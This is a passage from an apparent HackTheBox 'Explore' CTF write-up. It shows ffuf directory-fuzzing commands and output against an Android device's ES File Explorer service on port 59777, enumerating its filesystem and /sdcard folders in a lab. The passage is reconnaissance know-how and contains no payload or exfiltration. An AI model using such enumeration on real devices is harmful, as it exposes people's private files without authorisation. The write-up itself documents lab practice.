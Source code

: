 ```bash
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

acct                    [Status: 301, Size: 65, Words: 3, Lines: 1]
bin                     [Status: 301, Size: 63, Words: 3, Lines: 1]
cache                   [Status: 301, Size: 67, Words: 3, Lines: 1]
config                  [Status: 301, Size: 69, Words: 3, Lines: 1]
d                       [Status: 301, Size: 59, Words: 3, Lines: 1]
data                    [Status: 301, Size: 65, Words: 3, Lines: 1]
dev                     [Status: 301, Size: 63, Words: 3, Lines: 1]
etc                     [Status: 301, Size: 63, Words: 3, Lines: 1]
init                    [Status: 403, Size: 31, Words: 4, Lines: 1]
lib                     [Status: 301, Size: 63, Words: 3, Lines: 1]
mnt                     [Status: 301, Size: 63, Words: 3, Lines: 1]
oem                     [Status: 301, Size: 63, Words: 3, Lines: 1]
proc                    [Status: 301, Size: 65, Words: 3, Lines: 1]
product                 [Status: 301, Size: 71, Words: 3, Lines: 1]
sbin                    [Status: 301, Size: 65, Words: 3, Lines: 1]
storage                 [Status: 301, Size: 71, Words: 3, Lines: 1]
sys                     [Status: 301, Size: 63, Words: 3, Lines: 1]
system                  [Status: 301, Size: 69, Words: 3, Lines: 1]
vendor                  [Status: 301, Size: 69, Words: 3, Lines: 1]
```
Visiting any endpoint gives me 
![[Pasted image 20210627090612.png]]
The above directory list looks like some file system to me so that also wierd.
Looking for "port 59777 for android" I found out it to be ESFileExplorer so now I understand the the above things are nothing but content of ESFileExplorer.
So I Quickly used my phone so see where the user data is been stored it could be in one of two places sdcard or acct so let's try sdcard first.
Looks like we are in luck we can find the SDcard endpoint.
![[Pasted image 20210627091456.png]]
So lets FUZZ this endpoint to see if we can get something.
```bash
kali@kali:~/HackTheBox/Explore$ ffuf -u http://explore.htb:59777/sdcard/FUZZ -w /usr/share/wordlists/dirb/big.txt -e .txt -t 200 -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://explore.htb:59777/sdcard/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

Download                [Status: 301, Size: 87, Words: 3, Lines: 1]
Music                   [Status: 301, Size: 81, Words: 3, Lines: 1]
```